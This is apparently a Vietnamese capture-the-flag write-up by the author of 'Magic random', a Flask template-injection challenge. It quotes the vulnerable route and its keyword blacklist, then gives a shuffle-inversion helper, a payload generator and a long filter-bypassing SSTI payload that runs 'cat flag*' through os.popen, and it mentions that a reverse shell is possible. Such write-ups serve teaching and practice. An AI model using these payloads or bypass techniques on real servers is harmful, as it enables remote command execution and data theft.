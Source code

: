 # Magic random:

## 1. Description

- Author: ductohno

Phép thuật chưa bao giờ là con đường bằng phẳng. Chỉ khi kiên định bước qua mọi thử thách, bạn mới có thể gầy dựng nên một pháp thuật mang bản sắc riêng của chính mình.

## 2. Phân tích

Thứ nhất, ta phải xem qua source cái đã

```python
RANDOM_SEED=random.randint(0,50)

def valid_template(template):
    pattern = r"^[a-zA-Z0-9 ]+$"    
    if not re.match(pattern, template):
        random.seed(RANDOM_SEED) 
        char_list = list(template)
        random.shuffle(char_list)
        template = ''.join(char_list)
    return template

def special_filter(user_input):
    simple_filter=["flag", "*", "\"", "'", "\\", "/", ";", ":", "~", "`", "+", "=", "&", "^", "%", "$", "#", "@", "!", "\n", "|", "import", "os", "request", "attr", "sys", "builtins", "class", "subclass", "config", "json", "sessions", "self", "templat", "view", "wrapper", "test", "log", "help", "cli", "blueprints", "signals", "typing", "ctx", "mro", "base", "url", "cycler", "get", "join", "name", "g.", "lipsum", "application", "render"]
    for char_num in range(len(simple_filter)):
        if simple_filter[char_num] in user_input.lower():
            return False
    return True

@app.route("/api/cast_attack")
def cast_attack():
    attack_name = request.args.get("attack_name", "")
    if attack_name in attack_types:
        attack = attack_types[attack_name]
        return jsonify(attack)
    else:
        try:
            attack_name=valid_template(attack_name)
            if not special_filter(attack_name):
                return jsonify({"error": "Creating magic is failed"}), 404
            template=render_template_string("<i>No magic name "+attack_name+ " here, try again!</i>")    
            return jsonify({"error": template}), 404
        except Exception as e:
            return jsonify({"error": "There is something wrong here: "+str(e)}), 404
```

Dựa vào đoạn code kia, ta thấy đây là ssti bypass filter. Bài có 2 filter. Filter 1 là nếu trong input có kí tự khác chữ, số và dấu cách, nó sẽ dùng suffer để đảo ngược. Filter 2 là nếu trong payload chứa các kí tự có trongh blacklist, thì sẽ bị chặn. Chúng ta sẽ nói về từng filter một 

### 2.1. Filter 1
Filter này thì mình có mượn ý tưởng từ 1 chall năm 2024, tên là [wind](https://2024.angstromctf.com/challenges). Thực ra thì nó chỉ là random với seed cố định nhưng thay vì là 0 như bài gốc, thì mình cho server random 1 seed cố định khác. Cón random.shuffle, với 1 seed cố định thì sẽ luôn cho ta cùng 1 kết quả, bất kể có thử bao nhiêu lần đi nữa. Điều này áp dụng với cả list nữa. Mình sẽ lấy luôn hàm từ bài đó mà mình gen dc từ chatgpt. Đại khái là nó tạo 1 list, mỗi phần tử là 1 số từ 0 đến len(input) - 1 xong shuffle, từ đó tìm dc thứ tự sau khi shuffle. Dựa vào 2 list đó ta có thể hoán đổi vị trí các kí tự sao chi khi đi qua filter đầu tiên, ta có thể tạo được payload mình mong muốn

```python
def find_original_string_from_target(target_text, seed_value):
	random.seed(seed_value)
	indices = list(range(len(target_text)))
	random.shuffle(indices)
	
	original_list = [''] * len(target_text)
	for i, index in enumerate(indices):
		original_list[index] = target_text[i]
		
	original_text = ''.join(original_list)
	return original_text, indices
```

Vậy là xong vấn đề đầu tiên

### 2.2. Filter 2

Với việc bị khóa từng kia thứ, ae vẫn có thể xài `app` hoặc `__main__`

Giả sử mình xài `app`, thì target payload mình mong muốn là

```python
{{{{app.__init__.__globals__["sys"].modules["os"].popen(<MY_COMMAND>).read()}}}}
```

Nhưng, vấn đề là `'` và `"` đã bị chặn, do đó ta sẽ phải dùng các khác. ! trong các cách có thể sử dụng chính là `__doc__`. `__doc__` sẽ in ra cho ta tài liệu của module phía trước. Mình sẽ chọn `{}.__doc__` tại nó bao quát được gần hết các kí tự. 

```
dict() -> new empty dictionary
dict(mapping) -> new dictionary initialized from a mapping object's
    (key
 value) pairs
dict(iterable) -> new dictionary initialized as if via:
    d = {}
    for k
 v in iterable:
        d[k] = v
dict(**kwargs) -> new dictionary initialized with the name=value pairs
    in the keyword argument list.  For example:  dict(one=1
 two=2)
```

Vì kết quả trả ra là 1 string, ta có thể sử dụng `{}.__doc__[<chỉ số>]` để trích xuất các kí tự. Sau đó, vì `+` đã bị ban, ta có thể xài method `__add__()` để nối chúng lại với nhau. Như vậy, ta đã có thể bypass dấu `'` và `"` rồi. Lúc này ta có thể thực hiện 1 số lệnh cơ bản, chả hạn như ls.

```python
def create_magic_payload_by_chr(CMD):
	result=""
	sample=f"app.__init__.__globals__[{create_magic_payload_by_doc('sys')}].modules[{create_magic_payload_by_doc('builtins')}]"
	for i in range(len(CMD)):
		if i == 0:
			result += sample+f".chr({ord(CMD[i])}).__add__("
		elif i == len(CMD)-1:
			result += sample+f".chr({ord(CMD[i])}))"
		else:
			result += sample+f".chr({ord(CMD[i])})).__add__("
	print(f"[+] Result of {CMD}: {result}")
	return result

target_text = "{{app.__init__.__globals__["+create_magic_payload_by_doc('sys')+"].modules["+create_magic_payload_by_doc('os')+"].popen("+create_magic_payload_by_doc('ls')+").read()}}"    
print(target_text)
```

Lúc làm bài này mình ko tính đến trường hợp là thằng dict có dấu `*`, nên thành ra bài này khá dễ. Thực tế, intended của mình là muốn mọi người xài hàm buildin (ở đây là chr) để mã hóa thằng cmd, từ đó giúp ta dễ dàng làm bất cứ thứ gì, kể cả reverse shell.

Ý tưởng là 

```python
{{app.__init__.__globals__[{create_magic_payload_by_doc('sys')}].modules[{create_magic_payload_by_doc('builtins')}].chr(<1 số nào ascii nào đó>)}}
```

rồi dùng `__add__()` để nối chúng lại

## 3. Khai thác

Payload chạy lệnh `cat flag*`: (Filter 2 thôi nhé) 
```python
{{app.__init__.__globals__[{}.__doc__[97].__add__({}.__doc__[18]).__add__({}.__doc__[97])].modules[{}.__doc__[25].__add__({}.__doc__[97])].popen(app.__init__.__globals__[{}.__doc__[97].__add__({}.__doc__[18]).__add__({}.__doc__[97])].modules[{}.__doc__[91].__add__({}.__doc__[112]).__add__({}.__doc__[1]).__add__({}.__doc__[69]).__add__({}.__doc__[3]).__add__({}.__doc__[1]).__add__({}.__doc__[10]).__add__({}.__doc__[97])].chr(99).__add__(app.__init__.__globals__[{}.__doc__[97].__add__({}.__doc__[18]).__add__({}.__doc__[97])].modules[{}.__doc__[91].__add__({}.__doc__[112]).__add__({}.__doc__[1]).__add__({}.__doc__[69]).__add__({}.__doc__[3]).__add__({}.__doc__[1]).__add__({}.__doc__[10]).__add__({}.__doc__[97])].chr(97)).__add__(app.__init__.__globals__[{}.__doc__[97].__add__({}.__doc__[18]).__add__({}.__doc__[97])].modules[{}.__doc__[91].__add__({}.__doc__[112]).__add__({}.__doc__[1]).__add__({}.__doc__[69]).__add__({}.__doc__[3]).__add__({}.__doc__[1]).__add__({}.__doc__[10]).__add__({}.__doc__[97])].chr(116)).__add__(app.__init__.__globals__[{}.__doc__[97].__add__({}.__doc__[18]).__add__({}.__doc__[97])].modules[{}.__doc__[91].__add__({}.__doc__[112]).__add__({}.__doc__[1]).__add__({}.__doc__[69]).__add__({}.__doc__[3]).__add__({}.__doc__[1]).__add__({}.__doc__[10]).__add__({}.__doc__[97])].chr(32)).__add__(app.__init__.__globals__[{}.__doc__[97].__add__({}.__doc__[18]).__add__({}.__doc__[97])].modules[{}.__doc__[91].__add__({}.__doc__[112]).__add__({}.__doc__[1]).__add__({}.__doc__[69]).__add__({}.__doc__[3]).__add__({}.__doc__[1]).__add__({}.__doc__[10]).__add__({}.__doc__[97])].chr(102)).__add__(app.__init__.__globals__[{}.__doc__[97].__add__({}.__doc__[18]).__add__({}.__doc__[97])].modules[{}.__doc__[91].__add__({}.__doc__[112]).__add__({}.__doc__[1]).__add__({}.__doc__[69]).__add__({}.__doc__[3]).__add__({}.__doc__[1]).__add__({}.__doc__[10]).__add__({}.__doc__[97])].chr(108)).__add__(app.__init__.__globals__[{}.__doc__[97].__add__({}.__doc__[18]).__add__({}.__doc__[97])].modules[{}.__doc__[91].__add__({}.__doc__[112]).__add__({}.__doc__[1]).__add__({}.__doc__[69]).__add__({}.__doc__[3]).__add__({}.__doc__[1]).__add__({}.__doc__[10]).__add__({}.__doc__[97])].chr(97)).__add__(app.__init__.__globals__[{}.__doc__[97].__add__({}.__doc__[18]).__add__({}.__doc__[97])].modules[{}.__doc__[91].__add__({}.__doc__[112]).__add__({}.__doc__[1]).__add__({}.__doc__[69]).__add__({}.__doc__[3]).__add__({}.__doc__[1]).__add__({}.__doc__[10]).__add__({}.__doc__[97])].chr(103)).__add__(app.__init__.__globals__[{}.__doc__[97].__add__({}.__doc__[18]).__add__({}.__doc__[97])].modules[{}.__doc__[91].__add__({}.__doc__[112]).__add__({}.__doc__[1]).__add__({}.__doc__[69]).__add__({}.__doc__[3]).__add__({}.__doc__[1]).__add__({}.__doc__[10]).__add__({}.__doc__[97])].chr(42))).read()}}
```

Mình để script khai thác ở <a href="exploit.py">đây</a> nhé

## 4. Flag

`HOLACTF{create_your_magic_[hash]}`
